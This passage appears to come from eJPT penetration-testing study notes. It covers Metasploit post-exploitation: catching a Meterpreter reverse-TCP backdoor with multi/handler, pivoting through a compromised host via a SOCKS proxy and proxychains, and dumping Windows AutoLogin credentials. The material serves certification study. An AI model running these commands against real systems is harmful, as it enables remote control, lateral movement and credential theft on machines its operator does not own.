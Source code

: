 Use the backdoor:
  - `background`
  - `sessions -K`
  - `use exploit/multi/handler`
  - `set PAYLOAD windows/meterpreter/reverse_tcp`
  - `set LHOST <your-ip>`
  - `set LPORT 4444`
  - `exploit`

Note: The `<session-id>` is the one you can read when you type `background`  
Note: We need to use the same information about the backdoor to receive a new meterpreter session on the multi-handler. We can't change Payload, IP or Ports details.

#### Pivoting using a SOCKS Proxy
You have access to a compromised host and only from there you can access another machine. That machine exposes a web server, in order to access it from your computer set up a SOCKS proxy.

Add the route to the unreachable network using autoroute or route.

```bash
msf > use auxiliary/server/socks_proxy
msf > set VERSION 4a
msf > set SRVPORT 9050
msf > run -j
```

```bash
root@INE:~# proxychains nmap ...
```

Then you can also setup firefox in order to send request using the SOCKS proxy v4 at `127.0.0.1:9050`.

#### Dump AutoLogin stored credentials
Inside a meterpreter session:
  - `migrate -N explorer.exe`
  - `background`
  - `use post/windows/gather/credentials/windows_autologin`
  - `set SESSION <session-id>`
  - `exploit`

----------

If you find an error, just [open an issue](https://github.com/edoardottt/eJPT-notes/issues).
